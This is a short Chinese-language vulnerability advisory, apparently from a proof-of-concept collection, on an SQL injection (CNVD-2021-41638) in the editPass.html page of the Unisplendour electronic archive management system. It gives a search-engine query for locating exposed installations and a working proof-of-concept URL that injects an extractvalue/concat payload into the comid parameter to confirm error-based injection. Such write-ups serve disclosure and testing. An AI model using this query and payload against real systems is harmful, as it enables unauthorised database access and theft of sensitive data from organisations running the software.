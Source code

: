 # 

# 紫光档案管理系统 editPass.html SQL注入漏洞 CNVD-2021-41638

## 漏洞描述

紫光软件系统有限公司（以下简称“紫光软件”）是中国领先的行业解决方案和IT服务提供商。 紫光电子档案管理系统存在SQL注入漏洞。攻击者可利用漏洞获取数据库敏感信息。

## 漏洞影响

```
紫光电子档案管理系统
```

## 网络测绘

```
app="紫光档案管理系统"
```

## 漏洞复现

登录页面

![image-20220525145742607](./images/202205251457947.png)

验证POC

```
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![](./images/202205251458637.png)
